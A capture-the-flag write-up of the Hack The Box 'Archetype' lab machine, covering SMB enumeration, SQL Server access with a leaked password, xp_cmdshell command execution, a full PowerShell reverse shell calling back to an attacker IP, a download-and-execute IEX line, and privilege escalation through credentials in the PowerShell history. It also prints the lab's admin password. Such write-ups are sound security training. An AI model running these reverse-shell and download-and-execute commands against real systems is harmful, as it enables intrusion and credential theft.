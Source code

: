 ```yaml
---
title: "Writeup: Archetype"
date: 2020-12-29T9:34:30-04:00
categories:
  - Blog
  - Notes
tags:
  - archetype
  - update
  - nmap
  - impacket
  - smbclient
  - reverse shell
  - PE
  - pwd
---
```


Here are notes from the named target:

1. Enumeration - Ports 445 and 1433 are open, which are associated with file sharing (SMB) and SQL Server.
```yaml
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.27 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
 nmap -sC -sV -p$ports 10.10.10.27 
```

2.Enumeration - It is worth checking to see if anonymous access has been permitted, as file shares often store configuration files containing passwords or other sensitive information. We can use smbclient to list available shares
```yaml
smbclient -N -L \\\\10.10.10.27\\ 
```

3. Enumeration - There is a share called backups on the server that is public
```yaml
smbclient -N \\\\10.10.10.27\backups
```
Use Dir and Get to list and then download that file - prod.dtsConfig 

4. There is a dtsConfig file, which is a config file used with SSIS.

use CAT to read it locally

You will see the password for the SWL server

5. Foothold - Use mssqlclient to connect to the SQL server on the box
```yaml
mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth
```
provide the password from the config fill viewed in step 4

We can use the IS_SRVROLEMEMBER function to reveal whether the current SQL user has sysadmin (highest level) privileges on the SQL Server. This is successful, and we do indeed have sysadmin privileges.

This will allow us to enable xp_cmdshell and gain RCE on the host. Let's attempt this, by inputting the commands below.

6. Foothold - we have highest level access in the SQL server so we rune xp_cmdshell to do RCE

```yaml
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
xp_cmdshell "whoami"
```

The whoami command output reveals that the SQL Server is also running in the context of the user ARCHETYPE\sql_svc. However, this account doesn't seem to have administrative privileges on the host.

7. Reverse Shell - Let's attempt to get a proper shell, and proceed to further enumerate the system. We can save the PowerShell reverse shell below as shell.ps1.
```yaml
$client = New-Object System.Net.Sockets.TCPClient("Attacker IP",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Next, stand up a mini webserver in order to host the file. We can use Python.

```yaml
python3 -m http.server 80
```

After standing up a netcat listener on port 443, we can use ufw to allow the call backs on port 80 and 443 to our machine. No need to open firewall if we dont have it lovally

```yaml
nc -lvnp 443
```

We can now issue the command to download and execute the reverse shell through xp_cmdshell.

```yaml
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://Attacker IP/shell.ps1\");"
```

A shell is received as sql_svc, and we can get the user.txt on their desktop by navigating the remote system as sql account

8. Privilege Esclation - As this is a normal user account as well as a service account, it is worth checking for frequently access files or executed commands. We can use the command below to access the PowerShell history file.

```yaml
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt  (can also use more command to see contents of file like the user dile

```

That history file shows that the administrator account was used to map a drive to T:\ and what the password was.

From the "ARCHTYPE" box we learned that their was an Administrator/Admin account that used the Password: MEGACORP_4dm1n!!

This reveals that the backups drive has been mapped using the local administrator credentials. We can use Impacket's psexec.py to gain a privileged shell.

Finally we can use psexec.py from Impacket to connect to the server as Administrator useing the password found in the above step and het the root target hash

 Administrator/Admin account that used the Password: MEGACORP_4dm1n!!



